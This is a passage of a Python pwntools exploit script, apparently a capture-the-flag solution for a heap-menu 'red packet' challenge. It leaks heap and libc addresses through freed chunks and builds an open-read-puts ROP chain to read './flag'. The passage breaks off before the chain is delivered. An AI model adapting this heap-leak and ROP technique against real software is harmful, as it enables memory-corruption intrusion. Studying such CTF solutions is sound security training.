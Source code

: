 ```python
            p = process(["qemu-aarch64", "-g", "1212", "-L", "/usr/aarch64-linux-gnu/", binary])
    else:
        p = process(binary)
else:
    p = remote(ip,port)

elf = ELF(binary)
libc = ELF(libcelf)

def choice(cho):
    sla('Your input: ',cho)

def add(idx,size,content):
    choice(1)
    sla('Please input the red packet idx: ',idx)
    sla('How much do you want?(1.0x10 2.0xf0 3.0x300 4.0x400): ',size)
    sla('Please input content: ',content)

def delete(idx):
    choice(2)
    sla('Please input the red packet idx: ',idx)

def show(idx):
    choice(4)
    sla('Please input the red packet idx: ',idx)

def edit(idx,content):
    choice(3)
    sla('Please input the red packet idx: ',idx)
    sla('Please input content: ',content) 

def pwn():
    for i in range(8):
        add(i,4,'a')
    for i in range(8,14):
        add(i,2,'b')
    for i in range(14):
        delete(i)
    show(1)
    heap_addr = uu64(ru('\x0a'))
    print('heap_addr='+hex(heap_addr))
    show(7)
    libc_base = uu64(ru('\x0a')[-6:]) - 0x7fd1a23ddca0 + 0x7fd1a1ff2000
    print(hex(libc_base))

    pop_rdi = libc_base + 0x0000000000026542
    pop_rsi = libc_base + 0x0000000000026f9e
    pop_rdx = libc_base + 0x000000000012bda6
    leave_ret = libc_base + 0x0000000000058373
    opens = libc.sym['open']
    read = libc.sym['read']
    puts = libc.sym['puts']
    open_addr = libc_base + opens
    read_addr = libc_base + read
    puts_addr = libc_base + puts
    orw_addr = heap_addr + 0x1F80
    flag_addr = orw_addr + 0x78
    orw = p64(pop_rdi) + p64(flag_addr) + p64(pop_rsi) + p64(0) + p64(open_addr)
    orw += p64(pop_rdi) + p64(3) + p64(pop_rsi) + p64(flag_addr) + p64(pop_rdx) + p64(0x30) + p64(read_addr)
    orw += p64(pop_rdi) + p64(flag_addr) + p64(puts_addr)
    orw += './flag\x00'

```